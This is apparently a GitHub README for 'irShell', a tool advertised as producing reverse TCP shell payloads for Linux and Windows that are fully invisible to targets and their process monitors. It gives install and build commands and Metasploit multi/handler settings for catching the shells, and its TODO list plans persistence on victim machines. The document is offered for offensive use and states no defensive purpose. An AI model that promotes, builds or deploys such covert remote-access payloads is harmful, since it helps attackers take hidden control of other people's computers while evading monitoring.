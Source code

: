 # irShell
💯% Invisible Reverse TCP Shell Payloads for Linux/Windows 🥷

## About:
What I believe to be an original and effective method for creating reverse TCP payloads that are 100% invisible not only to the target but the target's resource/process monitors. Simple MSFconsole handlers/listeners are then used for callbacks.


## Requirements:

SHC 

```
sudo apt install -y shc
```

Bash

```
sudo apt install -y bash
```
GCC

```
sudo apt install -y gcc
```




## Installation:

```
git clone https://github.com/MBHudson/irShell.git && cd irShell && sudo gcc irShell.c -o irShell && sudo chmod +x irShell
```

## Usage:

```
sudo ./irShell
```

## MSFconsole:

```
set exploit/multi/handler
set PAYLOAD linux/x64/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
run
```

## TODO

- [ ] Persistence without reboot
- [ ] EXE and Shell formats
- [ ] All-in-One built-in dependency installation 
